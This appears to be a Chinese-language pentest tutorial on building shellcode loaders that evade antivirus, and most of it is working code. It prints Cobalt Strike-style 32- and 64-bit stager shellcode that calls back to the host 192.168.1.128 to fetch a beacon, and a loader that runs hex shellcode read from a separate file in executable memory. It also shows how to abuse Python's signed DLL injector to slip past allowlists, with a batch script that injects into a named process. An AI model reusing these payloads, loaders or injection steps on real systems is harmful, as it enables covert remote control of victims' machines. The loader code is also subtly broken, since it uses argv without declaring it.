





## Shellcode加载器

在渗透测试过程中，往往需要使用木马上线目标主机来达到持久化、便捷化控制目标主机的目的。`shellcode`由于其自身可塑性高，杀软查杀难度较高，因此通常将木马`shellcode`化后，再进行免杀处理。

### shellcode

 `shellcode`为`16`进制的机器码，是一种地址无关代码，可在暂存器`EIP`溢出后，塞入一段可以让`CPU`执行的恶意代码，从而执行攻击者的任何指令。这是因为，当`shellcode`被写入内存后，会被翻译成`CPU`指令。`CPU`自上而下执行这些指令，这其中有一个特殊的寄存器，`EIP`寄存器，它里面存放的值是`CPU`下次要执行的指令地址，因此可以通过修改`EIP`寄存器的值来执行`shellcode`。

### 生成shellcode

首先用cs生成用于上线的shellcode

**calc**

```c
\x48\x81\xEC\x00\x01\x00\x00\x65\x48\x8B\x04\x25\x60\x00\x00\x00\x48\x8B\x40\x18\x48\x8B\x40\x30\x48\x8B\x70\x10\x48\x8B\x58\x40\x48\x8B\x00\x81\x7B\x0C\x33\x00\x32\x00\x75\xEC\x48\x8B\xCE\x48\xC7\xC2\x32\x74\x91\x0C\xE8\xC0\x00\x00\x00\x4C\x8B\xF0\x48\xC7\xC3\x6C\x6C\x00\x00\x53\x48\xBB\x75\x73\x65\x72\x33\x32\x2E\x64\x53\x48\x8B\xCC\x48\x83\xEC\x18\x41\xFF\xD6\x48\x8B\xD8\x48\x8B\xCB\x48\xC7\xC2\x6A\x0A\x38\x1E\xE8\x8E\x00\x00\x00\x4C\x8B\xF0\x4D\x33\xC9\x4D\x33\xC0\x48\x33\xD2\x48\x33\xC9\x41\xFF\xD6\x48\x8B\xCE\x48\xC7\xC2\x51\x2F\xA2\x01\xE8\x6D\x00\x00\x00\x4C\x8B\xF0\x48\x33\xC0\x50\x48\xB8\x63\x61\x6C\x63\x2E\x65\x78\x65\x50\x48\x8B\xCC\x48\x83\xEC\x20\x48\xC7\xC2\x01\x00\x00\x00\x41\xFF\xD6\x48\x8B\xCE\x48\xBA\x85\xDF\xAF\xBB\x00\x00\x00\x00\xE8\x38\x00\x00\x00\x4C\x8B\xF0\x48\xC7\xC0\x61\x64\x00\x00\x50\x48\xB8\x45\x78\x69\x74\x54\x68\x72\x65\x50\x48\x8B\xCE\x48\x8B\xD4\x48\x83\xEC\x20\x41\xFF\xD6\x4C\x8B\xF0\x48\x81\xC4\x88\x01\x00\x00\x48\x83\xEC\x18\x48\x33\xC9\x41\xFF\xD6\xC3\x48\x83\xEC\x40\x56\x48\x8B\xFA\x48\x8B\xD9\x48\x8B\x73\x3C\x48\x8B\xC6\x48\xC1\xE0\x36\x48\xC1\xE8\x36\x48\x8B\xB4\x03\x88\x00\x00\x00\x48\xC1\xE6\x20\x48\xC1\xEE\x20\x48\x03\xF3\x56\x8B\x76\x20\x48\x03\xF3\x48\x33\xC9\xFF\xC9\xFF\xC1\xAD\x48\x03\xC3\x33\xD2\x80\x38\x00\x74\x0F\xC1\xCA\x07\x51\x0F\xBE\x08\x03\xD1\x59\x48\xFF\xC0\xEB\xEC\x3B\xD7\x75\xE0\x5E\x8B\x56\x24\x48\x03\xD3\x0F\xBF\x0C\x4A\x8B\x56\x1C\x48\x03\xD3\x8B\x04\x8A\x48\x03\xC3\x5E\x48\x83\xC4\x40\xC3
```

**32位**

```c
/* length: 798 bytes */
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x50\x00\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x40\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x33\x64\x4d\x78\x00\xa7\xf5\x92\xec\x37\x66\xaf\xf3\xf2\xae\x3a\xd1\x3a\x4c\x63\xb8\xf7\x28\x0d\x1b\xf1\x80\x1c\x5e\x3a\xb9\xc7\x75\xb7\x07\x00\xae\xb9\x5e\x91\x38\x0a\x09\x4d\x7b\xa3\xe5\x91\x32\x21\x87\x7c\x25\x87\xe3\x17\x75\x01\x7b\x76\x81\x9b\x41\x74\x6a\x20\xa0\x0a\x52\xb7\xc1\x98\xe4\x40\x55\x63\xba\xce\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x57\x4f\x57\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x42\x4f\x49\x45\x39\x3b\x45\x4e\x55\x53\x4d\x53\x45\x29\x0d\x0a\x00\x4a\xd7\x24\x6f\xdd\x1e\x28\x0c\xe9\x49\x97\x85\xa9\xc1\x58\xfc\x52\x3f\x86\xda\x66\x2e\x1a\xed\x5c\xf8\x0f\x68\xa1\x67\xc7\xc4\xf7\xd1\xee\xfb\xeb\x75\x45\xec\xf3\x27\xa7\xf8\x2a\x72\x16\xd2\x35\x69\x08\x86\x36\xfc\xd4\x39\x5d\x03\xb6\x0a\xa7\xa3\xc9\x92\xe9\x11\xad\x87\x41\x57\xc9\x13\x25\xd3\x52\x8f\x75\xc0\x93\xef\xf4\xce\x7b\x79\x84\x0d\x2d\x72\x46\x52\x96\x68\x8a\x61\xcf\x37\xbc\x81\x36\x24\x55\x98\x20\x2c\xa2\x56\x20\x17\x91\x69\xb4\x2f\xc1\x6d\x8c\x61\xc1\x39\xe4\x4d\x21\x84\xc3\xa7\xa5\x21\x91\x21\x23\x20\x87\x8e\x5d\x30\x6a\x5e\xca\xc0\x5e\xfb\x6d\xe8\xf4\x9b\x56\xf1\x48\xfd\x8b\x51\x95\x92\x74\x99\x90\x0a\x0e\xa1\xd1\x06\x63\x1b\x44\xf9\x0b\xc1\x26\xd0\x82\xe6\xec\x8a\xde\xb4\xc9\xf2\x85\x64\xd1\x6c\x12\x2a\xb7\x57\x8c\xfa\xbc\x48\x26\xe8\x5e\x97\xcf\x99\x73\xf0\x6d\xc9\xea\x28\x4a\x49\x1c\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x32\x38\x00\x49\x96\x02\xd2";
```

**64位**

```c
/* length: 892 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x54\x49\x54\x6c\x00\x61\x85\x2d\x13\x88\xf6\x4a\x2c\x57\x8c\x29\x08\x71\x8f\xc1\x01\xed\x6d\xcc\xa9\xf0\x40\x9d\x9e\x7c\x18\x3d\xbd\x21\xfb\x13\x94\x79\xf5\xc7\x99\xa8\x72\xfb\x28\xb6\xaa\xc0\xcf\xaa\xa8\x4e\x09\xdc\xd3\x7d\x63\x77\x57\xb9\x40\x9c\x94\xdb\x5d\x39\xd6\x96\x38\x8a\xf6\xe2\x80\x17\x25\x17\x49\x40\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x32\x3b\x20\x57\x4f\x57\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x3b\x20\x4d\x44\x44\x43\x4a\x53\x29\x0d\x0a\x00\xd9\x15\xca\x8d\xd0\x59\x00\x30\xf1\xcf\xe4\x90\x68\x2b\xfd\x48\x06\xee\x2f\xc6\x62\x36\x0e\x54\x1a\x8a\xf9\x14\xd2\xf0\xd8\x3b\x18\x0c\xfd\xc2\x17\x1b\x6c\x17\xc0\xf2\xc1\xe0\x7f\xb3\xad\x1f\x5e\x36\x59\xdb\xd8\xec\xa8\x90\xab\x36\x5a\xbb\x16\x7b\x42\x59\x53\x42\x50\xd7\x1b\x71\xc9\x84\x2a\xbe\xe0\x82\x5c\xfc\x1a\x6c\xf3\x05\xba\x00\x9b\xd4\x06\xba\xac\x7d\xe7\x49\x67\x90\x7f\xc9\x9a\x08\xde\x36\x81\xa9\xe9\xcf\xf7\x5d\xf2\x45\x61\xef\xed\xc1\x9d\x52\xef\x4f\x4c\x85\x06\x02\xc2\x21\xe6\x6e\x68\x23\x78\x73\x06\xc5\x11\xc4\xac\x3c\x5d\x97\xa2\x5f\x4b\x63\xbb\x0d\xe2\xa6\x50\x18\x21\xb2\x96\x9a\x4c\xbb\xbd\x96\x95\x45\xf8\x25\xe5\xb8\x47\x44\xae\x23\xce\x6d\x79\xa3\x06\x60\x17\xd3\xe8\x0e\x01\xc0\xb5\x2c\x32\xb8\x88\xe2\xc0\x0b\x97\xec\x06\xb7\x4a\x67\x97\xcb\x44\x78\xa7\x01\x9e\xe2\xe4\x2b\x46\x8a\xef\x93\xea\x42\x7e\x28\xe6\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x32\x38\x00\x49\x96\x02\xd2";
```

### 加载shellcode

#### c语言内联汇编（支持32位）

```c++
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

/* shellcode代码段 */
unsigned char buf[] = "shellcode";

void main() {
	__asm {
		lea eax,buf		//加载buf的地址到eax寄存器
		call eax		//通过call函数来调用
	}
}
```




## 免杀——c语言

### 分离免杀

首先拿一个弹计算器的十六进制shellcode

**shellcode_hex.txt**

```
4881EC0001000065488B042560000000488B4018488B4030488B7010488B5840488B00817B0C3300320075EC488BCE48C7C23274910CE8C00000004C8BF048C7C36C6C00005348BB7573657233322E6453488BCC4883EC1841FFD6488BD8488BCB48C7C26A0A381EE88E0000004C8BF04D33C94D33C04833D24833C941FFD6488BCE48C7C2512FA201E86D0000004C8BF04833C05048B863616C632E65786550488BCC4883EC2048C7C20100000041FFD6488BCE48BA85DFAFBB00000000E8380000004C8BF048C7C0616400005048B8457869745468726550488BCE488BD44883EC2041FFD64C8BF04881C4880100004883EC184833C941FFD6C34883EC4056488BFA488BD9488B733C488BC648C1E03648C1E836488BB4038800000048C1E62048C1EE204803F3568B76204803F34833C9FFC9FFC1AD4803C333D2803800740FC1CA07510FBE0803D15948FFC0EBEC3BD775E05E8B56244803D30FBF0C4A8B561C4803D38B048A4803C35E4883C440C3
```

写一个初步的加载器：

```c++
#include <windows.h>
#include <iostream>
#include <fstream>
#include <sstream>
using namespace std;

unsigned char hexCharToByte(char character) {
    if (character >= '0' && character <= '9') {
        return character - '0';
    }
    if (character >= 'a' && character <= 'f') {
        return character - 'a' + 10;
    }
    if (character >= 'A' && character <= 'F') {
        return character - 'A' + 10;
    }
    return 0;
}

void hexStringToBytes(const std::string& hexString, unsigned char* byteArray, int byteArraySize) {
    for (int i = 0; i < hexString.length(); i += 2) {
        byteArray[i / 2] = hexCharToByte(hexString[i]) * 16 + hexCharToByte(hexString[i + 1]);
    }
}

int main()
{   
    std::string filepath = argv[1];
	std::ifstream file(filepath);
    size_t size;
    string contents;
    if (file.is_open()) {
        std::stringstream buffer;
        buffer << file.rdbuf();
        contents = buffer.str();
        size = contents.length()/2;
        file.close();
    }
    unsigned char* buffer = (unsigned char*)malloc(size);
    hexStringToBytes(contents, buffer, size);
    void* exec = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buffer, size);
    ((void(*) ())exec)();
}
```

vs编译后加载shellcode



**virus total**



**微步**



### 


## DLL注入

python官方提供了两个文件

`inject_dll_amd64.exe`和`inject_dll_x86.exe`

两个文件是DLL注入器，分别对应X86和X64位操作系统，在Windows目录下存在c++源码

```c++
#include <iostream>
#include <windows.h>
#include <stdio.h>
#include <conio.h>
#include <tchar.h>
#include <tlhelp32.h>

#pragma comment(lib, "kernel32.lib")
#pragma comment(lib, "user32.lib")

// Helper to free data when we leave the scope.
class DataToFree {
public:
    HANDLE hProcess;
    HANDLE snapshotHandle;
    
    LPVOID remoteMemoryAddr;
    int remoteMemorySize;
    
    DataToFree(){
        this->hProcess = nullptr;
        this->snapshotHandle = nullptr;
        
        this->remoteMemoryAddr = nullptr;
        this->remoteMemorySize = 0;
    }
    
    ~DataToFree() {
        if(this->hProcess != nullptr){
            
            if(this->remoteMemoryAddr != nullptr && this->remoteMemorySize != 0){
                VirtualFreeEx(this->hProcess, this->remoteMemoryAddr, this->remoteMemorySize, MEM_RELEASE);
                this->remoteMemoryAddr = nullptr;
                this->remoteMemorySize = 0;
            }
            
            CloseHandle(this->hProcess);
            this->hProcess = nullptr;
        }

        if(this->snapshotHandle != nullptr){
            CloseHandle(this->snapshotHandle);
            this->snapshotHandle = nullptr;
        }
    }
};


/**
 * All we do here is load a dll in a remote program (in a remote thread).
 *
 * Arguments must be the pid and the dll name to run.
 *
 * i.e.: inject_dll.exe <pid> <dll path>
 */
int wmain( int argc, wchar_t *argv[ ], wchar_t *envp[ ] )
{
    std::cout << "Running executable to inject dll." << std::endl;
    
    // Helper to clear resources.
    DataToFree dataToFree;
    
    if(argc != 3){
        std::cout << "Expected 2 arguments (pid, dll name)." << std::endl;
        return 1;
    }
 
    const int pid = _wtoi(argv[1]);
    if(pid == 0){
        std::cout << "Invalid pid." << std::endl;
        return 2;
    }
    
    const int MAX_PATH_SIZE_PADDED = MAX_PATH + 1;
    char dllPath[MAX_PATH_SIZE_PADDED];
    memset(&dllPath[0], '\0', MAX_PATH_SIZE_PADDED);
    size_t pathLen = 0;
    wcstombs_s(&pathLen, dllPath, argv[2], MAX_PATH);
    
    const bool inheritable = false;
    const HANDLE hProcess = OpenProcess(PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD | PROCESS_VM_READ | PROCESS_VM_WRITE | PROCESS_QUERY_INFORMATION, inheritable, pid);
    if(hProcess == nullptr || hProcess == INVALID_HANDLE_VALUE){
        std::cout << "Unable to open process with pid: " << pid << ". Error code: " << GetLastError() << "." << std::endl;
        return 3;
    }
    dataToFree.hProcess = hProcess;
    std::cout << "OpenProcess with pid: " << pid << std::endl;
    
    const LPVOID remoteMemoryAddr = VirtualAllocEx(hProcess, nullptr, MAX_PATH_SIZE_PADDED, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if(remoteMemoryAddr == nullptr){
        std::cout << "Error. Unable to allocate memory in pid: " << pid << ". Error code: " << GetLastError() << "." << std::endl;
        return 4;
    }
    dataToFree.remoteMemorySize = MAX_PATH_SIZE_PADDED;
    dataToFree.remoteMemoryAddr = remoteMemoryAddr;
    
    std::cout << "VirtualAllocEx in pid: " << pid << std::endl;
    
    const bool written = WriteProcessMemory(hProcess, remoteMemoryAddr, dllPath, pathLen, nullptr);
    if(!written){
        std::cout << "Error. Unable to write to memory in pid: " << pid << ". Error code: " << GetLastError() << "." << std::endl;
        return 5;
    }
    std::cout << "WriteProcessMemory in pid: " << pid << std::endl;
    
    const LPVOID loadLibraryAddress = (LPVOID) GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if(loadLibraryAddress == nullptr){
        std::cout << "Error. Unable to get LoadLibraryA address. Error code: " << GetLastError() << "." << std::endl;
        return 6;
    }
    std::cout << "loadLibraryAddress: " << pid << std::endl;
    
    const HANDLE remoteThread = CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE) loadLibraryAddress, remoteMemoryAddr, 0, nullptr);
    if (remoteThread == nullptr) {
        std::cout << "Error. Unable to CreateRemoteThread. Error code: " << GetLastError() << "." << std::endl;
        return 7;
    }
    
    // We wait for the load to finish before proceeding to get the function to actually do the attach.
    std::cout << "Waiting for LoadLibraryA to complete." << std::endl;
    DWORD result = WaitForSingleObject(remoteThread, 5 * 1000);
    
    if(result == WAIT_TIMEOUT) {
        std::cout << "WaitForSingleObject(LoadLibraryA thread) timed out." << std::endl;
        return 8;
        
    } else if(result == WAIT_FAILED) {
        std::cout << "WaitForSingleObject(LoadLibraryA thread) failed. Error code: " << GetLastError() << "." << std::endl;
        return 9;
    }
    
    std::cout << "Ok, finished dll injection." << std::endl;
    return 0;
}
```



可以看到这两个文件签名都在白名单中

使用方法：

- pid : 目标进程的进程ID

- dll name: 想要注入目标进程的DLL绝对路径

```sh
>inject_dll_amd64.exe
Running executable to inject dll.
Expected 2 arguments (pid, dll name).
```


使用批处理一键注入：

```bat
@echo off
set target_process_name=要注入的进程.exe
set dll_name=calc_x64.dll
set injecter=inject_dll_amd64.exe
for /f "tokens=2" %%i in ('tasklist ^| findstr /i "%target_process_name%"') do set "pid=%%i"
set "command=%CD%\%injecter% %pid% %CD%\%dll_name%"
%command%
```

